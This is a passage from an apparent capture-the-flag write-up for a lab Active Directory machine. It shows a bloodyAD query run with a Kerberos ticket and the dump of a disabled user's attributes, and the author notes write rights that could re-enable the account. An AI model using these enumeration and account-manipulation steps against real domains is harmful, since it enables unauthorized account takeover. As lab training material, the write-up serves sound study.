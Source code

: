 
Bloodhound shows the force password change, and bloodyad shows that we can update the logonHours and userAccountControl (enable/disable) fields with Mark.BBond.


```python
!KRB5_CONFIG=./krb5.conf KRB5CCNAME=./mark.bbond.ccache bloodyAD --host dc01.mirage.htb -d mirage.htb -k get object javier.mmarshall
```

    
    distinguishedName: CN=javier.mmarshall,OU=Users,OU=Disabled,DC=mirage,DC=htb
    accountExpires: 9999-12-31 23:59:59.999999+00:00
    badPasswordTime: 1601-01-01 00:00:00+00:00
    badPwdCount: 0
    cn: javier.mmarshall
    codePage: 0
    countryCode: 0
    dSCorePropagationData: 2025-05-22 21:49:20+00:00
    description: Contoso Contractors
    displayName: javier.mmarshall
    givenName: javier.mmarshall
    instanceType: 4
    lastLogoff: 1601-01-01 00:00:00+00:00
    lastLogon: 2025-05-25 18:43:57.120180+00:00
    lastLogonTimestamp: 2025-05-22 21:45:29.508220+00:00
    logonCount: 13
    logonHours: <21 repeating nullbytes>
    memberOf: CN=IT_Contractors,OU=Groups,OU=Contractors,OU=IT_Staff,DC=mirage,DC=htb
    msDS-SupportedEncryptionTypes: 0
    nTSecurityDescriptor: O:S-1-5-21-2127163471<snip>;CIID;LC;;;S-1-5-32-554)(A;CIID;0xf01bd;;;S-1-5-32-544)
    name: javier.mmarshall
    objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=mirage,DC=htb
    objectClass: top; person; organizationalPerson; user
    objectGUID: c52e731b-30c1-439c-a6b9-0c2f804e5f08
    objectSid: S-1-5-21-2127163471-3824721834-2568365109-1108
    primaryGroupID: 513
    pwdLastSet: 2025-05-25 18:44:43.217870+00:00
    sAMAccountName: javier.mmarshall
    sAMAccountType: 805306368
    uSNChanged: 69841
    uSNCreated: 24655
    userAccountControl: ACCOUNTDISABLE; NORMAL_ACCOUNT; DONT_EXPIRE_PASSWORD
    userPrincipalName: javier.mmarshall@mirage.htb
    whenChanged: 2025-05-25 18:44:43+00:00
    whenCreated: 2025-05-02 08:33:11+00:00


We can also see from bloodyAD that the userAccountControl is "ACCOUNTDISABLE" and the logonHours are set to 21 null bytes, which means the user is not allowed to log in at any time.

> I don't know what the deal was with my boxes, maybe the time was ever so slightly askew or maybe I'm just insane, but sometimes I had to respawn this box a half dozen times before I could get Javier to register as not-disabled. If I hadn't gotten lucky the first time, I may have never realized it.
